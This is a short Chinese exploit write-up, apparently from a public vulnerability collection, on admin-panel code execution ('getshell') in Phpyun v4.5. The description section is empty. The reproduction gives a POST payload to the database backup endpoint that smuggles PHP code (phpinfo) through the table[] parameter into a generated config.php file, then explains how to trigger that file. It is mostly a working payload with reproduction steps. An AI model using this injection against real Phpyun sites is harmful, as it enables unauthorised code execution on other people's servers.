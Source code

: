 ```yaml
---
title: Phpyun v4.5 后台getshell
id: zhfly3092
---
```


# Phpyun v4.5 后台getshell

## 一、漏洞简介

## 二、漏洞影响

Phpyun v4.5

## 三、复现过程

### payload：

```
Url： http://www.0-sec.org/admin/index.php?m=database&c=backup `Post：

pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111` 
```

漏洞复现过程： 首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![image](../img/74651dde3ca18f3fada476df3562c600.png)

抓包，修改table[] 参数-》发送

![image](../img/e56cb1d9c59997cadc78b8e4d7ed31c5.png)

![image](../img/c3bd17c6e1f10a2572d57ff9c10c5206.png)

产生的文件就在uploads/data/plus/bdata/phpyun_20200312153927/config.php
Url：访问（这里搭建的时候环境，我默认指向了uploads）

![image](../img/ee54eb599dcd2d54ed591625829f84a6.png)